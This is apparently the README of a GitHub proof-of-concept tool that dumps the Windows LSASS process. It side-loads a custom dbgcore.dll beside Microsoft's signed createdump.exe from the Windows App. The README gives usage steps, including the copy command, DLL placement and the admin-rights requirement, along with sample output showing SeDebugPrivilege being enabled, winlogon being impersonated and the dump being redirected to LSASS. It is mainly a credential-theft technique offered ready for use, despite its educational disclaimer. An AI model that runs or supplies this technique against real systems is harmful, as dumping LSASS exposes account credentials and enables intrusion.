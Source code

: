 # <img src="https://store-images.s-microsoft.com/image/apps.54073.13902538874112719.524cfb4a-0a7d-45be-bae7-dc1bb3a1c4af.bfaf52ba-a25c-4b1d-b32b-07d3e5c8bb8e?h=210" alt="Windows App" width=32/> Windows App LSASS Dump - Proof of Concept

This project demonstrates how to dump the LSASS process using the `createdump.exe` tool, a Microsoft signed executable, from the Windows App, leveraging a custom hook to enable process access to `LSASS`.

```
Get-AuthentiCodeSignature -FilePath (Join-Path -Path (Get-AppxPackage -Name *Windows365*).InstallLocation -ChildPath 'wnc\createdump.exe')

    Directory: C:\Program Files\WindowsApps\MicrosoftCorporationII.Windows365_2.0.285.0_x64__8wekyb3d8bbwe\wnc

SignerCertificate                         Status                                       StatusMessage                               Path
-----------------                         ------                                       -------------                               ----
C2048FB509F1C37A8C3E9EC6648118458AA01780  Valid                                        Signature verified.                         createdump.exe

```

## How to Use

1. **Copy createdump from WindowsApp folder to a folder of choice (`copy C:\Program Files\WindowsApps\MicrosoftCorporationII.Windows365_2.0.285.0_x64__8wekyb3d8bbwe\wnc\createdump.exe .`)**
2. **place `dbgcore.dll` from this repo in the same folder**
3. **execute createdump (optionally provide parameters)**

## note: needs admin rights.

Output should be something like this:
```
c:\work\_createdump>createdump.exe
WindowsApp PoC by Remko Weijnen
(ab)uses createdump tool from "The WindowsApp" to create an LSASS dump

Successfully hooked OpenProcess
OpenProcess called
Attempting to enable SeDebugPrivilege...
SeDebugPrivilege successfully enabled!
Attempting to impersonate winlogon...
Successfully impersonated winlogon
[createdump] Writing minidump with heap for process 35828 to file C:\Users\me\AppData\Local\Temp\dump.35828.dmp
MiniDumpWriteDump called with:
  ProcessId: 35828
  hProcess: 0x0000000000000184
  hFile: 0x00000000000001BC
  DumpType: 0x41a25
ProcessId changed to LSASS (PID: 1512)
Loaded DbgHelp.dll from: C:\Windows\System32\DbgCore.dll
Calling original with:
  ProcessId: 1512
  hProcess: 0x0000000000000184
  hFile: 0x00000000000001BC
  DumpType: 0x41026
MiniDumpWriteDump result: Success
[createdump] Dump successfully written in 270ms
DLL unloading, hooks removed.
```

## Disclaimer

This project is intended for educational purposes only. Misuse of this tool could violate privacy and security policies.
